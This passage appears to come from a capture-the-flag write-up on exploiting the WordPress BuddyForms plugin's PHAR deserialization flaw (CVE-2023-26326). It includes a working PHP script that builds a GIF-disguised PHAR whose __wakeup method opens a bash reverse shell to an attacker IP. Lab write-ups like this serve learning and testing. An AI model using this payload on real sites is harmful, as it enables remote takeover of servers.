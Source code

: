 Notes ; )

```bash
Vulnerability [buddy forms]

Usernames: 
root
shawking
```

---

This part is where i just searching and reading the articles for the exploit !

This version of BuddyForms has an unauthenticated **PHAR deserialization vulnerability**. By searching for the related CVE, I found a helpful Medium blog.

[WordPress BuddyForms Plugin — Unauthenticated Insecure Deserialization (CVE-2023–26326)](https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8)

In short, the vulnerability allows us to upload a **PHAR file** disguised as a GIF by adding GIF-specific magic bytes to its `setStub` part. Once uploaded, we can use the `phar://` wrapper to query the file and trigger **Remote Code Execution (RCE)**.

However, as noted in the blog, we need a **gadget** to complete the deserialization chain. Unfortunately, newer versions of WordPress don't have the required gadget. Even so, this method is worth testing since it's our best lead at this point.

```php
<?php
class Evil {
    public function __wakeup() {
        // Reverse shell payload
        $ip = '10.10.14.xxx'; // Replace with your IP address
        $port = 2004;       // Replace with your listening port

        // Reverse shell command
        $cmd = "/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'";
        system($cmd);
        die("Arbitrary Deserialization");
    }
}

// Check if phar.readonly is enabled
if (ini_get('phar.readonly')) {
    die("phar.readonly must be set to Off in your php.ini to create PHAR files.\n");
}

// Create a new PHAR archive
$phar = new Phar('evil.phar'); // Name of the PHAR file
$phar->startBuffering();
$phar->addFromString('test.txt', 'This is a test file.');
$phar->setStub("GIF89a\n<?php __HALT_COMPILER(); ?>");
$object = new Evil();
$phar->setMetadata($object);
$phar->stopBuffering();

echo "[+] PHAR file created: evil.phar\n";
```
